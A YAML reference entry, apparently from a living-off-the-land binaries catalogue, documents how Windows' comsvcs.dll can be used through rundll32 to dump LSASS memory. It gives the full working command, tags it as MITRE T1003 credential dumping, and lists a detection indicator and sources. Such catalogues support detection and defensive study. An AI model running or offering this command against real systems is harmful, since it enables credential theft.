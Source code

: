 ```yaml
---
Name: Comsvcs.dll
Description: COM+ Services
Author:
Created: "2019-08-30"
Commands:
  - Command: rundll32 C:\windows\system32\comsvcs.dll MiniDump "[LSASS_PID] dump.bin full"
    Description: Calls the MiniDump exported function of comsvcs.dll, which in turns calls MiniDumpWriteDump.
    Usecase: Dump Lsass.exe process memory to retrieve credentials.
    Category: Dump
    Privileges: SYSTEM
    MitreID: T1003
    MitreLink: https://attack.mitre.org/wiki/Technique/T1003
    OperatingSystem: Windows
Full_Path:
  - Path: c:\windows\system32\comsvcs.dll
Code_Sample:
  - Code: https://modexp.wordpress.com/2019/08/30/minidumpwritedump-via-com-services-dll/
Detection:
  - IOC: MiniDump being used in library
Resources:
  - Link: https://modexp.wordpress.com/2019/08/30/minidumpwritedump-via-com-services-dll/
Acknowledgement:
  - Person: modexp
    Handle: "NA"
---
```

